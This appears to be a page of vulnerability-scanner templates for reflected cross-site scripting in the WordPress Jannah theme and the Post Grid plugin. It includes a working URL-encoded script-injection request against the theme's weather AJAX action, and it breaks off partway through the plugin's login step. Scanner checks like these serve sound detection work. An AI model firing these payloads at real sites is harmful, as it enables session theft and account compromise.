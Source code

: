 **Type - status**
- status
    1. 200

**Type - word**
- words
    1. qzvvqhWAAlCfTiMDmAoqzkTpJEzPwVFSaIpfAfdfTinrMqqxkq
- part - body

---
# WordPress Jannah Theme \<5.4.4 - Cross-Site Scripting
## Description
- WordPress Jannah theme before 5.4.4 contains a reflected cross-site scripting vulnerability. It does not properly sanitize the options JSON parameter in its tie_get_user_weather AJAX action before outputting it back in the page.
- severity - medium
- tags - cve,cve2021,wordpress,xss,wp-theme,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-admin/admin-ajax.php?action=tie_get_user_weather&options=%7B%27location%27%3A%27Cairo%27%2C%27units%27%3A%27C%27%2C%27forecast_days%27%3A%275%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3Ecustom_name%27%3A%27Cairo%27%2C%27animated%27%3A%27true%27%7D
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Post Grid \<2.1.8 - Cross-Site Scripting
## Description
- WordPress Post Grid plugin before 2.1.8 contains a reflected cross-site scripting vulnerability. The slider import search feature and tab parameter of thesettings are not properly sanitized before being output back in the pages,
- severity - medium
- tags - authenticated,wpscan,cve,cve2021,xss,wp,wordpress,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

```